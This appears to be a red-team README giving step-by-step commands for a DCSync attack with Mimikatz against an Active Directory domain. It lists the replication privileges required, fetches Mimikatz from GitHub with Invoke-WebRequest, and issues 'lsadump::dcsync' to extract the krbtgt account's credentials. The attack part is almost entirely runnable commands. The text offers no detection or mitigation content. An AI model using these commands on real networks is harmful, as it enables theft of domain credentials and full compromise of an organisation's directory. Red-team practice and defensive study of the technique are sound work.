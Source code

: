 # Red Team - Performing DCSync Attack with Mimikatz

**Tool:** Mimikatz  
**Technique:** DCSync  
**MITRE ATT&CK ID:** T1003.006  
**Tactic:** Credential Access

---

## Requirements

- Valid domain user credentials with **replication privileges**
    - Domain Admin
    - Enterprise Admin
    - Or any user with `Replicating Directory Changes` , `Replicating Directory Changes All` & `DS-Replication-Get-Changes-In-Filtered-Set` permissions

---

## Step-by-Step Instructions

### 1. Download Mimikatz

**On Windows:**
```powershell
Invoke-WebRequest -Uri "https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip" -OutFile "mimikatz.zip"
Expand-Archive .\mimikatz.zip -DestinationPath .\mimikatz
cd .\mimikatz\x64
````
#### Open an elevated command prompt or PowerShell:
````powershell
.\mimikatz.exe
````

#### In the Mimikatz shell:
````powershell
privilege::debug
lsadump::dcsync /domain:mydomain.local /user:krbtgt
````
